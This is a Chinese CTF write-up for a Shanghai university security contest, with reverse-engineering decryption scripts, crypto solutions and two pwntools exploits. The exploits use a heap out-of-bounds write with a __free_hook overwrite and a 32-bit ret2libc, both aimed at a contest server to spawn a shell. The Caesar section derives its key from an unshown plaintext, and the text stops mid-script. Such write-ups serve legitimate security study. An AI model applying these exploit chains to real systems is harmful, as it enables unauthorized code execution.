# 第十届上海市大学生网络交全大赛 pwn&re&crypo全解-先知社区

> **来源**: https://xz.aliyun.com/news/18589  
> **文章ID**: 18589

---

# re

## EasyRE

`sub_140001070` 是一个加密函数



加密后的数据：

```
93 F9 8D 92 52 57 D9 05 C6 0A 50 C7 DB 4F CB D8 5D A6 B9 40 95 70 E7 9A 37 72 4D EF 57
```

加密阶段 1：S-盒初始化

加密阶段 2：主加密循环

加密阶段 3：最后的混淆

写出解密脚本

exp

```
import ctypes


def ROR(val, bits):
    """8位循环右移"""
    return ((val >> bits) | (val << (8 - bits))) & 0xFF


# 1. 从 .rdata 提取的目标密文 (29字节)
encrypted_flag = bytearray([
    0x93, 0xF9, 0x8D, 0x92, 0x52, 0x57, 0xD9, 0x05, 0xC6, 0x0A, 0x50,
    0xC7, 0xDB, 0x4F, 0xCB, 0xD8, 0x5D, 0xA6, 0xB9, 0x40, 0x95, 0x70,
    0xE7, 0x9A, 0x37, 0x72, 0x4D, 0xEF, 0x57
])

flag_len = len(encrypted_flag)
intermediate_flag = bytearray(flag_len)

# 2. 逆向“加密阶段3”
# C[0] = C'[0] ^ 0x42
intermediate_flag[0] = encrypted_flag[0] ^ 0x42
# C[i] = (C'[i] ^ C'[i-1]) ^ 0x42
for i in range(1, flag_len):
    intermediate_flag[i] = (encrypted_flag[i] ^ encrypted_flag[i - 1]) ^ 0x42

# 3. 准备S-盒 (模拟“加密阶段1”)
S = bytearray(range(256))
j = 0
for i in range(256):
    temp = S[i]
    # j = (j + S[i] + (i % 7) + 4919) % 256
    j = (j + S[i] + (i % 7) + 4919) & 0xFF
    S[i], S[j] = S[j], temp

# 4. 逆向“加密阶段2”，得到最终明文
decrypted_flag = bytearray(flag_len)
# 重新初始化状态变量，以模拟加密过程
i = 0
j = 0
for k in range(flag_len):
    # 模拟S-盒状态更新
    i = (i + 1) & 0xFF

    if i % 3 == 0:
        j = (S[3 * i] + j) & 0xFF
    else:
        j = (S[i] + j) & 0xFF

    S_i_old = S[i]
    S[i], S[j] = S[j], S[i]

    # 获取当前字节的密文 (来自阶段3的解密结果)
    ciphertext_byte = intermediate_flag[k]

    # 计算密钥流并解密
    k_part = (i * j) % 16
    S_lookup = S[(S_i_old + S[i]) & 0xFF]

    # Plaintext = ( (ROR(Ciphertext, 3) - k_part) & 0xFF ) ^ S_lookup
    temp_val = (ROR(ciphertext_byte, 3) - k_part) & 0xFF
    decrypted_flag[k] = temp_val ^ S_lookup

# 5. 打印结果
print("The flag is:")
print(decrypted_flag.decode('ascii'))
```

e



## cookie

还原代码过混淆



得到密文和密钥 接下来只要去找到加密逻辑 通过借助ai分析加密函数得到



因此写出解密脚本

exp

```
import struct


def solve():
    """
    Solves the reverse engineering challenge by decrypting the target data.
    """
    # 目标密文数组 v7
    # C中的负数需要转换为32位无符号整数
    v7 = [
        1452940357,  # v7[0]
        -282301936 & 0xFFFFFFFF,  # v7[1]
        -79426602 & 0xFFFFFFFF,  # v7[2]
        1469576221,  # v7[3]
        1379922627,  # v7[4]
        1211333849,  # v7[5]
        907455533,  # v7[6]
        112603437  # v7[7]
    ]

    # 密钥数组 v6
    key = [2, 0, 2, 2]
    k0, k1, k2, k3 = key[0], key[1], key[2], key[3]

    # 加密中使用的 delta 常量
    delta = 0x897354D2

    flag_bytes = b''

    # 外层循环，处理4个64位的块
    for i in range(4):
        # 取出当前块的两个32位数 (v0, v1)
        v0 = v7[2 * i]
        v1 = v7[2 * i + 1]

        # 解密的初始 sum 值是加密32轮后的结果
        current_sum = (delta * 32) & 0xFFFFFFFF

        # 内层循环，执行32轮解密
        for _ in range(32):
            # 解密 v1
            # v1 -= ( ((v0 << 4) + k2) ^ (v0 + sum) ) ^ ( ((v0 >> 5) + k3) ^ sum )
            term1_v1 = (((v0 << 4) & 0xFFFFFFFF) + k2) & 0xFFFFFFFF
            term2_v1 = (v0 + current_sum) & 0xFFFFFFFF
            term3_v1 = (((v0 >> 5) & 0xFFFFFFFF) + k3) & 0xFFFFFFFF
            term4_v1 = term3_v1 ^ current_sum

            update_val_v1 = (term1_v1 ^ term2_v1) ^ term4_v1
            v1 = (v1 - update_val_v1) & 0xFFFFFFFF

            # 解密 v0
            # v0 -= ( ((v1 << 4) + k0) ^ (v1 + sum) ) ^ ( ((v1 >> 5) + k1) ^ sum )
            term1_v0 = (((v1 << 4) & 0xFFFFFFFF) + k0) & 0xFFFFFFFF
            term2_v0 = (v1 + current_sum) & 0xFFFFFFFF
            term3_v0 = (((v1 >> 5) & 0xFFFFFFFF) + k1) & 0xFFFFFFFF
            term4_v0 = term3_v0 ^ current_sum

            update_val_v0 = (term1_v0 ^ term2_v0) ^ term4_v0
            v0 = (v0 - update_val_v0) & 0xFFFFFFFF

            # 更新 sum
            current_sum = (current_sum - delta) & 0xFFFFFFFF

        # 将解密后的两个32位数转换为8个字节（小端序）
        # '<II' 表示 little-endian, unsigned int, unsigned int
        decrypted_block = struct.pack('<II', v0, v1)
        flag_bytes += decrypted_block

    # 打印最终结果
    print(f"[*] The flag is: {flag_bytes.decode('utf-8')}")


if __name__ == '__main__':
    solve()
```

exp



# pwn

## user



漏洞点在edit这里



存在越界



可以指的stdout 去泄露libc 然后用指向自身去写入\_\_free\_hook的地址 再去改写为system拿shell

exp

#!/usr/bin/python3

from pwn import \*

import random

import os

import sys

import time

from pwn import \*

from ctypes import \*

​

env = os.environ.copy() # 复制当前环境变量

env["LD\_PRELOAD"] = "./libm.so.6" # 添加 LD\_PRELOAD

#--------------------setting context---------------------

context.clear(arch='amd64', os='linux', log\_level='debug')

​

#context.terminal = ['tmux', 'splitw', '-h']

sla = lambda data, content: mx.sendlineafter(data,content)

sa = lambda data, content: mx.sendafter(data,content)

sl = lambda data: mx.sendline(data)

rl = lambda data: mx.recvuntil(data)

re = lambda data: mx.recv(data)

sa = lambda data, content: mx.sendafter(data,content)

inter = lambda: mx.interactive()

l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))

s=lambda data: mx.send(data)

log\_addr=lambda data: log.success("--->"+hex(data))

p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

ru = lambda text :mx.recvuntil(text)

uu64 = lambda :u64(mx.recv(6).ljust(8,b'\x00'))

def dbg():

gdb.attach(mx)

​

#---------------------------------------------------------

# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3\_amd64/libc.so.6')

filename = "./user"

#mx = process(filename)

mx = remote("pss.idss-cn.com",23410)

elf = ELF(filename)

libc=elf.libc

#初始化完成---------------------------------------------------------\

def menu(ptr):

rl("5. Exit\
")

sl(str(ptr))

def add(content):

menu(1)

rl("Enter your username:\
")

sl(content)

def delete(ptr):

menu(2)

rl("index:\
")

sl(str(ptr))

def show(ptr):

menu(3)

def edit(ptr,content):

menu(4)

rl("index:\
")

sl(str(ptr))

rl("Enter a new username:\
")

sl(content)

def edit\_(ptr,content):

rl("5. Exit")

sl(str(4))

rl("index:")

sl(str(ptr))

rl("Enter a new username:")

sl(content)

​

​

​

add(b'/bin/sh\x00')

add(b'b')

edit(-8,p64(0xfbad1800)+p64(0)\*3+b'\x00')

libc\_addr=l64()

libc\_addr=l64()

libc\_addr=l64()-0x1b5fd9

log\_addr(libc\_addr)

libc.address=libc\_addr

system=libc.sym['system']

stdout = libc.sym['\_IO\_2\_1\_stdout\_']

free\_hook=libc.sym['\_\_free\_hook']

edit\_(-11,p64(free\_hook))

edit\_(-11,p64(system))

​

inter()

然后delete掉存有/bin/sh的堆块就可以拿shell



## account



32位的栈溢出 地址不随机 直接打ret2libc 这里要注意就是传参的方式

exp

#!/usr/bin/python3

from pwn import \*

import random

import os

import sys

import time

from pwn import \*

from ctypes import \*

​

env = os.environ.copy() # 复制当前环境变量

env["LD\_PRELOAD"] = "./libm.so.6" # 添加 LD\_PRELOAD

#--------------------setting context---------------------

context.clear(arch='amd64', os='linux', log\_level='debug')

​

#context.terminal = ['tmux', 'splitw', '-h']

sla = lambda data, content: mx.sendlineafter(data,content)

sa = lambda data, content: mx.sendafter(data,content)

sl = lambda data: mx.sendline(data)

rl = lambda data: mx.recvuntil(data)

re = lambda data: mx.recv(data)

sa = lambda data, content: mx.sendafter(data,content)

inter = lambda: mx.interactive()

l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

h64=lambda:u64(mx.recv(3).ljust(4,b'\x00'))

s=lambda data: mx.send(data)

log\_addr=lambda data: log.success("--->"+hex(data))

p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

​

def dbg():

gdb.attach(mx)

​

#---------------------------------------------------------

# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3\_amd64/libc.so.6')

filename = "./account"

#mx = process(filename)

mx = remote("pss.idss-cn.com",23103)

elf = ELF(filename)

libc=elf.libc

#初始化完成---------------------------------------------------------\

rl("Enter your bill, enter 0 to exit:\
")

#dbg()

pause()

puts\_plt=elf.plt['puts']

puts\_got=elf.got['puts']

main\_addr=0x80492EB

target\_addr=0x80490B0

for i in range(10):

sl(b'1')

sl(b'13')

sl(str(target\_addr).encode())

sl(str(main\_addr).encode())

sl(str(puts\_got).encode())

sl(b'0')

rl("Recording completed\
")

libc\_addr = u32(mx.recv(4))-0x6d1e0

libc.address=libc\_addr

log\_addr(libc\_addr)

system=libc.sym['system'] - 0x100000000

bin\_sh = next(libc.search(b'/bin/sh\0')) - 0x100000000

log\_addr(bin\_sh)

log\_addr(system)

rl("Enter your bill, enter 0 to exit:\
")

for i in range(10):

sl(b'1')

sl(b'13')

sl(str(system).encode())

sl(str(main\_addr).encode())

sl(str(bin\_sh).encode())

sl(b'0')

inter()



# crypto

## **AES\_GCM\_IV\_Reuse**

要解决这个问题，我们需要利用 AES GCM 模式中 IV（初始化向量）重用的安全漏洞。当使用相同的密钥和 IV 时，GCM 模式生成的加密流会重复，这使得我们可以通过已知的明文和密文推导出未知的明文。

漏洞分析

在提供的代码中，`VulnerableGCMCipher`类使用了固定的 IV（`FIXED_IV`）和密钥（`FIXED_KEY`），每次加密都重用相同的 IV 和密钥。这违反了 GCM 模式的安全要求，因为相同的 IV 和密钥会导致加密流重复。利用这一漏洞，我们可以通过已知的明文和对应的密文计算出加密流，再使用该加密流解密密文得到 flag。

解决步骤

1. **提取已知信息**：已知明文、已知密文和目标密文。
2. **分离密文和标签**：GCM 模式的加密结果包含密文和认证标签，我们需要提取出密文部分。
3. **计算加密流**：利用已知明文和对应的密文，通过异或操作计算出加密流。
4. **解密密文**：使用计算出的加密流与目标密文进行异或操作，得到 flag。

下面是能够正确求出flag的脚本

```
# 已知信息
known_plaintext = "The flag is hidden somewhere in this encrypted system."
known_cipher_hex = "b7eb5c9e8ea16f3dec89b6dfb65670343efe2ea88e0e88c490da73287c86e8ebf375ea1194b0d8b14f8b6329a44f396683f22cf8adf8"
target_cipher_hex = "85ef58d9938a4d1793a993a0ac0c612368cf3fa8be07d9dd9f8c737d299cd9adb76fdc1187b6c3a00c866a20"

# 将已知明文转换为字节
p1 = known_plaintext.encode()
len_p1 = len(p1)

# 将已知密文的十六进制转换为字节
known_cipher_bytes = bytes.fromhex(known_cipher_hex)
# 提取已知密文中与明文长度相同的部分（密文部分，排除标签）
c1 = known_cipher_bytes[:len_p1]

# 计算加密流（stream = plaintext XOR ciphertext）
stream = bytes([p ^ c for p, c in zip(p1, c1)])

# 将目标密文的十六进制转换为字节
target_cipher_bytes = bytes.fromhex(target_cipher_hex)
# 计算标签长度（已知密文总长度 - 已知明文长度）
tag_length = len(known_cipher_bytes) - len_p1
# 提取目标密文中的密文部分（排除标签）
c2 = target_cipher_bytes[:-tag_length] if tag_length > 0 else target_cipher_bytes

# 计算flag（flag = ciphertext XOR stream）
flag_bytes = bytes([c ^ s for c, s in zip(c2, stream)])

# 输出结果
print(flag_bytes.decode())
```



## 多重Caesar密码

题目提供了一段密文 `myfz{hrpa_pfxddi_ypgm_xxcqkwyj_dkzcvz_2025}` 和一个关键提示“改进的Caesar密码”

* **计算密钥流**：我们将密文和明文的字母一一对应，计算出每个位置的移位值。
* 公式: `shift = (ciphertext_char - plaintext_char) % 26`
* 例如: `m` (12) - `f` (5) = `7`
* `y` (24) - `l` (11) = `13`
* ... 以此类推，我们计算出加密所用的完整移位序列。
* **编写脚本**：创建一个脚本，将上面计算出的移位序列（密钥流）作为一个列表存入。脚本会遍历密文，对每个字母应用对应的移位值进行解密，从而还原出明文flag。

exp 

```
def solve_correctly():
    """
    使用通过比较密文和明文得出的精确移位序列来解密。
    """
    encrypted_flag = "myfz{hrpa_pfxddi_ypgm_xxcqkwyj_dkzcvz_2025}"

    # 这是通过 (ciphertext[i] - plaintext[i]) % 26 计算出的实际移位序列
    shifts = [
        7, 13, 5, 19, 3, 17, 23, 2, 13, 5, 19, 11, 3, 17,
        2, 7, 13, 5, 11, 3, 17, 23, 2, 7, 13, 5, 11, 3,
        17, 23, 2, 7
    ]

    decrypted_flag = ""
    shift_index = 0

    for char in encrypted_flag:
        # 只对字母进行解密操作
        if 'a' <= char <= 'z':
            # 获取当前字母需要的移位值
            shift = shifts[shift_index]

            # 从密文字母的ASCII码中减去移位值
            # (ord(char) - ord('a') - shift + 26) % 26 确保结果在 0-25 之间
